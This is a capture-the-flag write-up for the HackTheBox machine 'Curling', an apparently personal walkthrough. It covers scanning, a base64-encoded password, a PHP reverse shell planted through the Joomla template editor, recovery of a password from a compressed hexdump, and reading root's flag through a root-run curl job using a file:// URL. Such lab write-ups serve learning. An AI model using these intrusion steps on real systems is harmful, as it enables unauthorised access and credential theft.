





# Curling

## Enumeration
As always:
```bash
kali@kali:~/hackthebox/Practice/Curling$ nmap -sC -sV -p- 10.10.10.150 -oN nmap.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-18 10:41 EDT
Nmap scan report for 10.10.10.150
Host is up (0.037s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:d1:69:b4:90:20:3e:a7:b6:54:01:eb:68:30:3a:ca (RSA)
|   256 9f:0b:c2:b2:0b:ad:8f:a1:4e:0b:f6:33:79:ef:fb:43 (ECDSA)
|_  256 c1:2a:35:44:30:0c:5b:56:6a:3f:a5:cc:64:66:d9:a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 46.43 seconds
```
We only have to worry about two ports, so lets look at the web app. 

And we see a blog post about curling.A couple usernames we see are floris and Super User. Lets start gobuster...
```bash
kali@kali:~/hackthebox/Practice/Curling$ ~/Downloads/gobuster/gobuster dir -u 10.10.10.150 -w /usr/share/wordlists/dirb/directory-list-1.0.txt -x php,html,log,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.150
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/directory-list-1.0.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,html,log,txt
[+] Timeout:        10s
===============================================================
2020/06/18 10:48:01 Starting gobuster
===============================================================
/images (Status: 301)
/media (Status: 301)
/index.php (Status: 200)
/templates (Status: 301)
/bin (Status: 301)
/libraries (Status: 301)
/includes (Status: 301)
/plugins (Status: 301)
/language (Status: 301)
/modules (Status: 301)
/tmp (Status: 301)
/cache (Status: 301)
/secret.txt (Status: 200)
/configuration.php (Status: 200)
/layouts (Status: 301)
```
We found two things, /administrator 


and /secret.txt



And it turns out to be base64 encoded so lets see what it's hiding.

```bash
kali@kali:~$ echo 'Q3VybGluZzIwMTgh' | base64 -d
Curling2018!
kali@kali:~$ 
```
And with the credentials floris:Curling2018! we are able to login to the admin panel. 

## Foothold
After poking around, we find a media panel to upload pictures, so I tried to upload a php reverse shell but it gave me notice telling me that the file was unsafe. But I did find a php editor where we can edit the php to give me a reverse shell and then use the preview feature to trigger it. The php shell I used is available here: http://pentestmonkey.net/tools/web-shells/php-reverse-shell. 

and

and we get a shell!
```bash
nc -l -p 1234
Linux curling 4.15.0-22-generic #24-Ubuntu SMP Wed May 16 12:15:17 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 15:08:15 up 27 min,  0 users,  load average: 0.06, 0.12, 0.15
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ which python
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash");'
www-data@curling:/$ 
```
## User
I /home/floris we were able to find user.txt and /admin-area but we didn't have read priviledges yet. 
```bash
www-data@curling:/home/floris$ ls -la
ls -la
total 44
drwxr-xr-x 6 floris floris 4096 May 22  2018 .
drwxr-xr-x 3 root   root   4096 May 22  2018 ..
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3771 Apr  4  2018 .bashrc
drwx------ 2 floris floris 4096 May 22  2018 .cache
drwx------ 3 floris floris 4096 May 22  2018 .gnupg
drwxrwxr-x 3 floris floris 4096 May 22  2018 .local
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
drwxr-x--- 2 root   floris 4096 May 22  2018 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 May 22  2018 user.txt
```
But I found an interesting file called password-backup:
```bash
www-data@curling:/home/floris$ file password_backup
file password_backup
password_backup: ASCII text
www-data@curling:/home/floris$ cat password_backup
cat password_backup
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.'F...s.'
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
www-data@curling:/home/floris$ 
```
Lets copy this to a text file, edit out the portion on the right, and try to revert back from the hexdump. 
```bash
kali@kali:~/hackthebox/Practice/Curling$ cat dump.txt
00000000 425a 6839 3141 5926 5359 819b bb48 0000  
00000010 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  
00000020 4edc cccc 6e11 5400 23ab 4025 f802 1960  
00000030 2018 0ca0 0092 1c7a 8340 0000 0000 0000  
00000040 0680 6988 3468 6469 89a6 d439 ea68 c800  
00000050 000f 51a0 0064 681a 069e a190 0000 0034  
00000060 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  
00000070 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  
00000080 f53e 0809 f073 5654 c27a 4886 dfa2 e931  
00000090 c856 921b 1221 3385 6046 a2dd c173 0d22  
000000a0 b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  
000000b0 ad6b b12f 0813 8120 8205 a5f5 2970 c503  
000000c0 37db ab3b e000 ef85 f439 a414 8850 1843  
000000d0 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  
000000e0 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  
000000f0 819b bb48
kali@kali:~/hackthebox/Practice/Curling$ xxd -r dump.txt > dump
kali@kali:~/hackthebox/Practice/Curling$ file dump
dump: bzip2 compressed data, block size = 900k # What's in here?
kali@kali:~/hackthebox/Practice/Curling$ mv dump dump.bz2
kali@kali:~/hackthebox/Practice/Curling$ bzip2 -d dump.bz2
kali@kali:~/hackthebox/Practice/Curling$ file dump
dump: gzip compressed data, was "password", last modified: Tue May 22 19:16:20 2018, from Unix, original size modulo 2^32 141
kali@kali:~/hackthebox/Practice/Curling$ mv dump dump.tgz   
kali@kali:~/hackthebox/Practice/Curling$ gunzip dump.tgz
kali@kali:~/hackthebox/Practice/Curling$ tar -xvf dump.tar
password.txt
kali@kali:~/hackthebox/Practice/Curling$ cat password.txt 
5d<wdCbdZu)|hChXll
```
Great, let's log into floris!
```bash
www-data@curling:/home/floris$ su floris
su floris
Password: 5d<wdCbdZu)|hChXll

floris@curling:~$ ls
ls
admin-area  password_backup  user.txt
floris@curling:~$ cat user
cat user.txt 
65dd1df0713b40d88ead98cf11b8530b
floris@curling:~$ 
```
## Priviledge Escalation
Now that we have more access, let's try to see what's in the admin area.
```bash
floris@curling:~$ cd admin-area
cd admin-area/
floris@curling:~/admin-area$ ls
ls
input  report
floris@curling:~/admin-area$ cat input
cat input
url = "http://127.0.0.1"
floris@curling:~/admin-area$ cat report
cat report
WARNING: Failed to daemonise.  This is quite common and not fatal.
Connection refused (111)
floris@curling:~/admin-area$ 
```
Interesting, maybe try changing the url input?
```bash
floris@curling:~/admin-area$ echo 'url = "http://127.0.0.1/secret.txt"' > input
< echo 'url = "http://127.0.0.1/secret.txt"' > input
floris@curling:~/admin-area$ cat input
cat input
url = "http://127.0.0.1/secret.txt" #Wait a few seconds
floris@curling:~/admin-area$ cat report
cat report
Q3VybGluZzIwMTgh
```
So we can use this to access the system files, lets change the input again.
```bash
floris@curling:~/admin-area$ echo 'url = "file:///root/root.txt"' > input
echo 'url = "file:///root/root.txt"' > input
floris@curling:~/admin-area$ cat report
cat report
82c198ab6fc5365fdc6da2ee5c26064a
```
## Conclusion
The foothold was pretty straightforward, but I really enjoyed getting user and root.
